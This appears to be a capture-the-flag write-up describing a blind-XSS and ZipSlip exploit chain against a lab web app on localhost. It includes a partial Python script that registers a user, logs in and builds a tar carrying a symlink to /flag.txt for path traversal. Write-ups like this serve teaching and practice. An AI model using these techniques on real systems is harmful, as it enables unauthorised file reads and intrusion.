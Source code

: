 # Exploit Idea:

* Now, We have a XSS, Cookies are Set to `HTTP Only`, So, we cannot get the Admin Bot Cookie and Also `is_admin()` function checks if the ip is '127.0.0.1' or Not.

* Now, with Blind XSS, we need to craft a Payload to Send a `tar` file to `/api/firmware/upload`.

* There is a WellKnown Vulnerability `ZipSlip` which allow us to pack files into tar or zip files, which are path traversaled when the zip file is unziped. 

* Creating a `symlink` file that pointing to `/flag.txt` and using zipslip Vulnerability to traversal the Extracted Files. 


* We can traversal the `symlink` file to `/app/applicaition/static/getflag.txt` while unziping the tar file. `[getflag.txt is a symlink file pointing to /flag.txt]`

* By traversaling the Extracted files to `/app/applicaition/static` will help to bypass the `tarinfo.isreg()` function. Bcoz, this function checks the files present in `/tmp` dir where the normal files are initially Extracted.

# Exploit: 

* I wrote a Python Script to Automate this. 

```python
import requests
import os
import random
import string
import tarfile

letters = string.ascii_lowercase
randomText=  ''.join(random.choice(letters) for i in range(10)) 
url = 'http://localhost:1337'

def registerUser(username, password):
    r = requests.post(url + '/api/register', json={"username":username,"password":password})
    if r.status_code != 200:
        print(r.text)
        exit()  

def loginUser(username, password):
    r = requests.post(url + '/api/login', json={"username":username,"password":password})
    if r.status_code != 200:
        print(r.text)
        exit()    
    
    session = r.headers['Set-Cookie'].split(';')[0].split('=')[1]
    global cookies
    cookies = {
        'session':session
    }
    r = requests.get(url + '/dashboard', cookies=cookies)

def makeTar():
    os.system(f'mkdir ../app')
    os.system(f'mkdir ../app/application/')
    os.system(f'mkdir ../app/application/static')
    os.system('ln -s /flag.txt getflag.txt; mv getflag.txt ../app/application/static/')
    
    tar = tarfile.open('exp.tar','w')
    tar.add('../app/application/static/getflag.txt')
    tar.close()

```